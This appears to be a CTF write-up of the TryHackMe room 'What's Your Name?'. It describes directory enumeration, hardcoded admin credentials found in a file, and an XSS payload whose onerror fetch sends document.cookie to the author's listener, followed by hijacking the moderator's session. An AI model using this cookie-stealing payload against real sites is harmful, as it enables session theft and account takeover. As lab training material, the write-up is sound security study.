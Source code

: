 Project: What's Your Name? — XSS and Session Hijacking
Project Goal:
The goal of this project was to complete the TryHackMe CTF room "What's Your Name?". The main objective was to identify an XSS vulnerability and use it to hijack the moderator's session cookie in order to access restricted sections of the website and retrieve both flags.
Project Description:
I completed this task on the TryHackMe platform.
Target machine IP: 10.10.137.153,
My attacking machine IP: 10.10.62.23.

Initial Reconnaissance:
I started by adding the domains worldwap.thm and login.worldwap.thm to the /etc/hosts file.
Then, using Gobuster, I performed directory enumeration which revealed interesting paths such as /admin.py, /phpmyadmin, /index.php, and /profile.php.

Credential Discovery:
While reviewing the admin.py file, I discovered hardcoded credentials:

username = 'admin'
password = 'Un6u3$$4Bl3!!'
Using these credentials, I successfully logged into the application at http://login.worldwap.thm/login.php.

XSS Attack:
After logging in, I explored the profile.php page and identified an input field vulnerable to XSS.
I injected the following payload:

<img src=x onerror="fetch('http://10.10.62.23:8080/?c='+document.cookie)">
Before this, I started a simple Python HTTP server:

sudo python3 -m http.server 8080
Session Cookie Hijacking:
Within a few seconds, my terminal displayed a request containing the moderator’s session cookie:

GET /?c=PHPSESSID=pu36b3affituhi76ek7agopcij
I copied this cookie and replaced my own via the browser's DevTools.

Access to Moderator Panel and Flag Retrieval:
After replacing the cookie, I gained access to the moderator panel and successfully captured the second flag.

Conclusion:
This project demonstrated the critical importance of testing web applications for XSS vulnerabilities and the risks associated with poorly secured session handling.
I not only practiced web enumeration and analysis, but also executed a full session hijacking attack. This challenge strengthened my understanding of OWASP-level vulnerabilities and showcased how easily a system can be compromised without proper data protection.
